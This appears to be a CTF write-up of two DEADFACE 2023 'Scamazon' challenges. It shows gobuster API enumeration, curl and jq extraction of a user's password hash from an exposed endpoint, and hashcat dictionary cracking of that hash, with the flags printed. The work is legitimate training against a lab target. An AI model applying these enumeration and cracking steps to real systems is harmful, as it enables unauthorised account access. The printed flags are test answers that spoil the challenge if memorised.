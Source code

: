 ```yaml
---
title: DEADFACE CTF 2023 - Scamazon
date: Mon Oct 23 02:11:42 AM +04 2023
categories: [Writeup]
tags: [ctf,deadface,deadface2023,pwn,web]
---
```


## Scamazon 1 

Created by: **syyntax**

DEADFACE is running a scam e-commerce website they’re using to target TGRI and Lytton Labs employees. The site consists of products that these companies frequently purchase. Based on Ghost Town, it looks like lilith built the site. She’s not known for her programming skills - maybe she left a flaw in the website’s design.

Find the flag associated with  `scamazon 1`. Submit the flag as  `flag{flag_text}`.

[https://epicsales.deadface.io](https://epicsales.deadface.io/)

_**Password bruteforcing is off limits for this challenge**_

### Solution

Go to [Ghost Town](https://ghosttown.deadface.io), search `api`, find [post](https://ghosttown.deadface.io/t/scam-azon-site-needed/124/10)

> Idk how good you are with APIs but it might be a good idea to include one so we have easy access in JSON format to the data our victims provide.

```bash
└─$ gobuster dir -u https://epicsales.deadface.io/ -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://epicsales.deadface.io/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/api/v2/public/feeds.json (Status: 200) [Size: 105]
/api/v2/users         (Status: 200) [Size: 225508]
Progress: 268 / 269 (99.63%)
===============================================================
Finished
===============================================================

└─$ curl https://epicsales.deadface.io/api/v2/public/feeds.json
{
  "flags": [
    {
      "name": "scamazon 1",
      "value": "flag{w34K_aPi_p3rMISs1oNS}"
    }
  ]
}
```

> Flag: flag{w34K_aPi_p3rMISs1oNS}
{: .prompt-tip }

## Scamazon 2

Created by: **syyntax**

Try to find a way to access the EpicSales site. You’ll need to figure out  `lilith`’s password though. We don’t want to make too much noise, so avoid using dictionary attacks if possible. 

## Solution

From previous challenge we know that api has users endpoint which returns json, and it also has passwords.

```bash
└─$ curl https://epicsales.deadface.io/api/v2/users -s | jq '.users[] | select(.email | test("lilith.*"))'
{
  "email": "lilith@deadface.io",
  "first_name": "Vanessa",
  "last_name": "Ludi",
  "password": "sha256$Hsc1Qq4IGJtt2JkU$793e66d5522bed63f71749245401705b49099af922d256b1040ff499a5ac9cb9"
}
```

Lets crack the password

```bash
└─$ echo -n 'sha256$Hsc1Qq4IGJtt2JkU$793e66d5522bed63f71749245401705b49099af922d256b1040ff499a5ac9cb9' > lilith.hash 
                                                                                           
└─$ hashcat --show lilith.hash # Find hash type
...
30120 | Python Werkzeug SHA256 (HMAC-SHA256 (key = $salt)) | Framework
...

└─$ hashcat -m 30120 -a 0 lilith.hash $rockyou
Status...........: Cracked
...

└─$ hashcat --show lilith.hash                
...
sha256$Hsc1Qq4IGJtt2JkU$793e66d5522bed63f71749245401705b49099af922d256b1040ff499a5ac9cb9:1234567890
```

> Flag: flag{1234567890}
{: .prompt-tip }